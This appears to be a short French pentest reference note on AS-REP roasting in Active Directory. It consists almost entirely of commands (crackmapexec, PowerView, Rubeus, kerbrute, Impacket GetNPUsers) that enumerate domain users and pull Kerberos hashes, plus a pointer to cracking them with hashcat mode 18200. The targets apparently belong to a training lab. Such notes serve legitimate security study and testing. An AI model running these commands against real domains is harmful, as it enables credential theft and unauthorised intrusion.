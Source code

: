 ```yaml
---
public: true # set to true to make the article publishable
---
```


```powershell
cme ldap  $TARGET -u users.lst -p '' --asreproast asrep.txt

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 

GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]

